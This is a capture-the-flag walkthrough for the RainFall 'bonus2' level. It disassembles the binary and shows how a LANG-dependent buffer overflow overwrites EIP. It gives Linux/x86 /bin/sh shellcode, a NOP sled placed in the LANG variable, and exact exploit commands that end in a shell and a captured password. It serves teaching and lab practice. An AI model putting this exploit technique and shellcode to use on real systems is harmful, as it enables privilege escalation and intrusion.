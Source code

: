 # Bonus2

## Overview
This walkthrough explains how to exploit the `bonus2` binary. It includes detailed explanations for each step, covering the `argv` usage, the `LANG` environment variable, offsets, NOP sled, and shellcode.

## 1. Understanding the Binary
`bonus2` expects two command-line arguments and prints them separated by a space:

```bash
$ ./bonus2 coucou toi
Hello coucou
```

### Observations:

- Info functions show us a `main()` and a `greetuser()`

```bash
0x08048548 <+31>:	lea    0x50(%esp),%ebx
0x0804854c <+35>:	mov    $0x0,%eax
0x08048551 <+40>:	mov    $0x13,%edx
0x08048556 <+45>:	mov    %ebx,%edi
0x08048558 <+47>:	mov    %edx,%ecx
0x0804855a <+49>:	rep stos %eax,%es:(%edi)
```
* `lea 0x50(%esp),%ebx` → computes the address `esp+0x50` (this is the **start of the local buffer**).
* Then a `rep stos` → sets **0x13 (= 19 dwords = 76 bytes)** to zero in this buffer. So we have a buffer of approximately **76 bytes reserved for** `argv[1]` + `argv[2]`

```bash
0x0804855c <+51>:	mov    0xc(%ebp),%eax   ; argv
0x0804855f <+54>:	add    $0x4,%eax       ; argv+1
0x08048562 <+57>:	mov    (%eax),%eax     ; argv[1]
0x08048564 <+59>:	movl   $0x28,0x8(%esp) ; 40
0x0804856c <+67>:	mov    %eax,0x4(%esp)  ; src = argv[1]
0x08048570 <+71>:	lea    0x50(%esp),%eax ; dst = buffer
0x08048574 <+75>:	mov    %eax,(%esp)
0x08048577 <+78>:	call   0x80483c0 <strncpy@plt>
```
* `argv[1]` is retrieved.
* `strncpy(buffer, argv[1], 40)` → we copy **40 bytes max from** `argv[1]` into the buffer at `esp+0x50`.
 So `argv[1]` starts the buffer content.

```bash
0x0804857c <+83>:	mov    0xc(%ebp),%eax   ; argv
0x0804857f <+86>:	add    $0x8,%eax       ; argv+2
0x08048582 <+89>:	mov    (%eax),%eax     ; argv[2]
0x08048584 <+91>:	movl   $0x20,0x8(%esp) ; 32
0x0804858c <+99>:	mov    %eax,0x4(%esp)  ; src = argv[2]
0x08048590 <+103>:	lea    0x50(%esp),%eax
0x08048594 <+107>:	add    $0x28,%eax     ; buffer+40
0x08048597 <+110>:	mov    %eax,(%esp)
0x0804859a <+113>:	call   0x80483c0 <strncpy@plt>
```
* This time `argv[2]` is retrieved.
* `strncpy(buffer+40, argv[2], 32)` → we copy **32 bytes max from** `argv[2]` right after `argv[1]` in the buffer.

- The binary checks the `LANG` environment variable.

```bash
0x080485a6 <+125>:	call   0x8048380 <getenv@plt>   ;getenv("LANG")
0x080485ab <+130>:	mov    %eax,0x9c(%esp)
0x080485b2 <+137>:	cmpl   $0x0,0x9c(%esp)   
0x080485ba <+145>:	je     0x8048618 <main+239> 
```
* `getenv("LANG")` → retrieves the value of `LANG`.
* If it doesn't exist → we take the default path (`Hello`).

```bash
; Test si LANG commence par "fi"
0x080485bc <+147>:	movl   $0x2,0x8(%esp)
0x080485c4 <+155>:	movl   $0x804873d,0x4(%esp)   ; "fi"
0x080485cc <+163>:	mov    0x9c(%esp),%eax        ; pointeur sur LANG
0x080485d3 <+170>:	mov    %eax,(%esp)
0x080485d6 <+173>:	call   0x8048360 <memcmp@plt>
...
0x080485df <+182>:	movl   $0x1,0x8049988         ; si == "fi", flag = 1

; Test si LANG commence par "nl"
0x080485eb <+194>:	movl   $0x2,0x8(%esp)
0x080485f3 <+202>:	movl   $0x8048740,0x4(%esp)   ; "nl"
0x080485fb <+210>:	mov    0x9c(%esp),%eax
0x08048602 <+217>:	mov    %eax,(%esp)
0x08048605 <+220>:	call   0x8048360 <memcmp@plt>
...
0x0804860e <+229>:	movl   $0x2,0x8049988         ; si == "nl", flag = 2
```

- It sets a global variable depending on `LANG`:
  - `LANG=fi` → 1
  - `LANG=nl` → 2
  - Other → 0
- A function `greetuser()` copies and concatenates messages into a buffer, allowing a buffer overflow if the input is long enough.

## 2. argv Usage
Analyzing `main` in GDB:
- `argv[1]` is copied to a buffer at most 40 bytes.
- `argv[2]` is copied right after `argv[1]` at most 32 bytes.
- This combined buffer can overflow and overwrite `EIP` depending on `LANG`.

## 3. LANG Environment Variable
`LANG` determines the prefix message:
- `fi` → "Hyvää päivää " (long)
- `nl` → "Goedemiddag! " (different length)
- Other → "Hello "

The length of the prefix affects the offset where `EIP` is overwritten.

### Setting LANG:
```bash
export LANG=fi
export LANG=nl
```

## 4. Finding Offset for EIP
1. Generate a padding pattern manually to fill the buffer.
2. Run in GDB with the pattern as `argv[2]`:

```bash
gdb bonus2
run $(python -c 'print "A"*40') $(python -c 'print "PATTERN"')
```

### Results:
- `LANG=fi` → EIP overwritten after 18 bytes of `argv[2]`
- `LANG=nl` → EIP overwritten after 23 bytes of `argv[2]`

## 5. Shellcode
We use a standard Linux/x86 shellcode to spawn `/bin/sh`:
```python
"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"
```

## 6. Determining the Jump Address (into NOP sled)
1. Break at `main+125` in GDB.
2. Run the program and examine the environment:
```gdb
b *main+125
Breakpoint 1 at 0x80485a6

run $(python -c 'print "A"*40') bla
Starting program: /home/user/bonus2/bonus2 $(python -c 'print "A"*40') bla

Breakpoint 1, 0x080485a6 in main ()

x/20s *((char**)environ)
0xbffffebc:	 "LANG=nl\220\220....

```
3. Locate the start of `LANG` in memory (e.g., `0xbffffebc`).
4. Add a small offset (e.g., `+50`) to land in the middle of the NOP sled → `0xbffffeee`.
In hexadecimal form its `\xee\xfe\xff\xbf`

## 7. Building the Exploit
1. Set LANG with NOP sled + shellcode:
```bash
export LANG=$(python -c 'print("nl" + "\x90"*100 + SHELLCODE)')
```
2. Construct `argv`:
- `argv[1]` → 40 bytes of padding (`A*40`)
- `argv[2]` → offset-dependent padding (`B*18` for fi, `B*23` for nl) + address inside NOP sled (`0xbffffeee`)

Example:
```bash
bonus2@RainFall:~$ ./bonus2 $(python -c 'print "A" * 40') $(python -c 'print "B" * 23 + "\xee\xfe\xff\xbf"')
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBB����
$ whoami
bonus3
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```
